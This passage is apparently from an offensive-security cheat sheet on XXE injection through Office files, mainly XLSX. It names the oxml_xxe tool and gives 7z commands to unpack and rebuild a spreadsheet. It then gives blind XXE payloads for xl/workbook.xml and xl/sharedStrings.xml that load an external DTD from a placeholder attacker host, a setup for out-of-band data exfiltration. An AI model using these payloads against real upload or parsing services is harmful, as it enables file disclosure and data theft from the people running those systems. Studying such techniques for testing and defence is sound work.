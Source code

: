 Tool : https://github.com/BuffaloWill/oxml_xxe

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

### XXE inside XLSX file

Structure of the XLSX:

```
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```

Extract Excel file: `7z x -oXXE xxe.xlsx`

Rebuild Excel file:

```
$ cd XXE
$ 7z u ../xxe.xlsx *
```

Add your blind XXE payload inside `xl/workbook.xml`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

Alternativly, add your payload in `xl/sharedStrings.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&rrr;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```
